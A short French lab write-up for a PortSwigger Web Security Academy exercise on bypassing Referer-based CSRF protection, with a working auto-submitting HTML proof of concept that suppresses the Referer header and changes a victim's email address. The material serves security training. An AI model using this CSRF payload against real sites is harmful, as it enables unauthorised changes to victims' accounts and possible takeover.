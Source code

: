 # Lab

https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present

## Solution

Quand on génère un POC CSRF, et qu'on le visite, on obtient l'erreur : `Invalid Referer header`

Avec une simple recherche `CSRF Bypass Referer`, on tombe sur ce [lien](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses) nous indiquant que le header `Referer` peut être injecté par l'attaquant avec cette baliase : `<meta name="referrer" content="never">`

On génère donc un POC CSRF avec cette balise, et on l'envoie à la victime.

```html
<html>
<meta name="referrer" content="never">
  <body>
    <form action="https://0aba001603788119819d115500f800eb.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwnde@mcdo.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Pourquoi ca fonctionne ?

Le site vérifie le contenu du header `Referer` pour s'assurer que la requête provient bien de son site.

Mais si le header n'est pas présent, il ne peut pas vérifier son contenu, et donc accepte la requête.

Ainsi, avec la balise `<meta name="referrer" content="never">`, on indique au navigateur de ne pas envoyer le header `Referer`, et donc le site accepte la requête.